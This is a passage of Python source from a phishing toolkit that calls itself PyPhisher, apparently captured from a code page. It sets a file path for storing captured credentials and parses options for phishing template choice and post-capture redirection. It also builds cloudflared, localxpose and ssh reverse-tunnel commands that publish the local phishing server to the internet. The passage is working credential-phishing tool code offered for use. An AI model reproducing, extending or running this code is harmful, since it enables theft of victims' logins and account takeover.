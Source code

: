  lx_command = f"{tunneler_dir}/loclx" 
 if isdir("/data/data/com.termux/files/home"): 
     termux = True 
     cf_command = f"termux-chroot {cf_command}" 
     lx_command = f"termux-chroot {lx_command}" 
     saved_file = "/sdcard/.creds.txt" 
 else: 
     termux = False 
     saved_file = f"{home}/.creds.txt" 
  
  
 print(f"\n{info}Please wait!{nc}") 
  
 argparser = ArgumentParser() 
  
 argparser.add_argument("-p", "--port", type=int, default=default_port, help=f"PyPhisher's server port [Default : {default_port}]") 
 argparser.add_argument("-o", "--option", help="PyPhisher's template index [Default : null]") 
 argparser.add_argument("-t", "--tunneler", default=default_tunneler, help=f"Tunneler to be chosen while url shortening [Default : {default_tunneler}]") 
 argparser.add_argument("-r", "--region", help="Region for loclx [Default: auto]") 
 argparser.add_argument("-s", "--subdomain", help="Subdomain for loclx [Pro Account] (Default: null)") 
 argparser.add_argument("-u", "--url", help="Redirection url after data capture [Default : null]") 
 argparser.add_argument("-m", "--mode", help="Mode of PyPhisher [Default: normal]") 
 argparser.add_argument("-e", "--troubleshoot", help="Troubleshoot a tunneler [Default: null]") 
 argparser.add_argument("--nokey", help="Use localtunnel without ssh key [Default: False]", action="store_false") 
 argparser.add_argument("--noupdate", help="Skip update checking [Default : False]", action="store_false") 
  
  
 args = argparser.parse_args() 
  
 port = args.port 
 option = args.option 
 region = args.region 
 subdomain = args.subdomain 
 tunneler = args.tunneler 
 url = args.url 
 mode = args.mode 
 troubleshoot = args.troubleshoot 
 key = args.nokey if mode != "test" else False 
 update = args.noupdate 
  
 local_url = f"127.0.0.1:{port}" 
  
 ts_commands = { 
     "cloudflared": f"{cf_command} tunnel -url {local_url}", 
     "localxpose": f"{lx_command} tunnel http -t {local_url}", 
     "localhostrun": f"ssh -R 80:{local_url} localhost.run -T -n", 
     "cf": f"{cf_command} tunnel -url {local_url}", 
     "loclx": f"{lx_command} tunnel http -t {local_url}", 
     "lhr": f"ssh -R 80:{local_url} localhost.run -T -n" 
 } 
  